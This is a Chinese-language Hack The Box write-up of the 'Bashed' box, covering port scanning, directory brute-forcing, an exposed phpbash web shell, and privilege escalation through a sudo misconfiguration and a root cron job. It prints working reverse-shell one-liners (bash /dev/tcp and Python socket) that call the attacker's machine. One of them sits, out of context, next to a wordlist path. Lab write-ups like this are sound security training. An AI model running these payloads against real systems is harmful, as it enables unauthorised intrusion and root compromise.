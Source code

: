 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
category: Hack The Box
---
```


# Bashed Writeup

![](./0.png)

## 0x01 信息收集
先手 `nmap`。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.68
```
就开了一个 80。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面。

![](./1.png)

### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.68
```
未见开放。

**共开放了 `tcp 80` 端口。**

## 0x02 漏洞利用
### 1、Port 80
浏览器打开主页是 phpbash 的介绍（一个页面命令行），同时翻到子一个子页面给的交互示意动图，可以感觉到这里大概率是个立足点。

![](./2.png)
页面上获取不到更多信息，这个时候又到目录扫描的好时光了，照例 `dirbuster` 默认字典跑一下，既然是 php 站点，后缀先用默认的 `.php`。
扫到可疑文件。

![](./3.png)
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

浏览器打开，是一个页面命令行，身份是普通用户 `www-data`。

![](./4.png)

页面下的 shell 多有不便，先弹一个 shell 出来。

这里应该是做了限制，尝试 `bash`、`nc` 均无效，甚至怀疑其了人生是不是做了网络隔离，但是用 `curl` 测试又是通的，遂把其他脚本也试了一轮，最后 `python` 成功反弹。
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 0x03 提权
首先关注一下 sudo 权限配置。
``` bash
sudo -l
```
这个配置意思是 `以 scriptmanager 用户的身份无需密码执行任意命令`。

![](./5.png)
狂喜，跑一个 `id` 看看，返回显示还是普通用户。
``` bash
sudo -u scriptmanager id
```
![](./6.png)
并且尝试花式 `su` 到 `root` 都没用，一律需要输密码，切不上去，人傻了。
``` bash
sudo -u scriptmanager su
sudo -u scriptmanager su -
sudo -u scriptmanager sudo su
```

![](./7.png)
> `su` 需要一个完全互动的 TTY，否则会报错 `su: must be run from a terminal`。切换 TTY：
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> ![](./8.png)

看一下 sudo 版本：`1.8.16`，查到一个漏洞 [CVE-2019-14287](https://paper.seebug.org/1057/)，但是无法利用，似乎还需要当前用户的密码？
毫无头绪的时候思考一下盒子设计逻辑，首先 scriptmanager 肯定是突破口，但又不是管理员，那么是否想让我**用 scriptmanager 做一些 www-data 做不到的事情**？

切换到 `scriptmanager`。
``` bash
sudo -u scriptmanager /bin/bash
```
翻一下所属用户为 `scriptmanager` 的文件是否能发现端倪，定位到根目录下的 `scripts` 文件夹。

![](./9.png)
里面有两个文件，根据内容推断出: `scriptmanager 的 python` 脚本执行后会生成一个 `root 的 txt`，说明意味着**这里的 python 文件会以 root 权限执行**，即使暂时不知道原因。

![](./10.png)
所以在这里写入一个 python 的反弹 shell，试跑一下，还是普通用户。

![](./13.png)
![](./11.png)
说明肯定不是由用户来执行，而且 `test.txt` 的更新时间在不停变化，一定有个 root 的计划任务在一直跑这个 `test.py`。此时断开 shell，打开监听，等待计划任务执行。

![](./14.png)
果不其然得到一个 root shell。

![](./12.png)

> 这里的正确思路是：
> **使用普通用户监控 root-crontab 的工具：pspy**
> 上传至靶机，赋权 `chmod 777 pspy64s`，执行 `./pspy64s`，观察日志，会发现定时任务明细内容。
> 
> ![](./17.png)
> ![](./16.png)
> 提权后查看计划任务，确实。
> 
> ![](./15.png)

## 0x04 攻击节点
信息收集 -> 目录扫描 -> 80.phpbash-RCE(www-data) -> sudo 配置不当切换用户(scriptmanager) -> crontab-python(root)

## 0x05 学到什么
#### 1、渗透的时候不要为了省事疯狂 `ls`，能 `ls -la` 的时候尽量用，避免遗漏重要信息。
#### 2、对于不直接的线索要冷静分析，比如看到一个 NOPASSWD，却不是 root，也不要谎，都是套路。